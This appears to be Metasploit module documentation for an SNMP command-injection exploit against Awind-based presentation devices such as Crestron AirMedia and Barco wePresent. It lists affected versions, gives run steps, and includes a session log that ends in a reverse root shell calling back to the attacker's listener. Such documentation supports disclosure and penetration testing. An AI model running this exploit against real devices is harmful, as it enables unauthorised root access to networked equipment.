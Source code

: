 ## Description

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to ftpfw.sh system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

## Vulnerable Devices

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/awind_snmp_exec`
  3. Do: `set RHOST [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `run`
  6. You should get a session

## Scenarios

```
msf5 > use exploit/linux/snmp/awind_snmp_exec
msf5 exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf5 exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf5 exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf5 exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse double SSL handler on 192.168.100.1:4444
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo LFNuuQAgrHrq1aq6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "LFNuuQAgrHrq1aq6\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.100.1:4444 -> 192.168.100.2:35189) at 2019-03-27 14:09:54 +0100

id
uid=0(root) gid=0(root)
uname -avr
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #7 Thu Apr 2 16:50:50 CST 2015 armv6l GNU/Linux
```

## References

* https://github.com/QKaiser/awind-research
* https://qkaiser.github.io/pentesting/2019/03/27/awind-device-vrd/
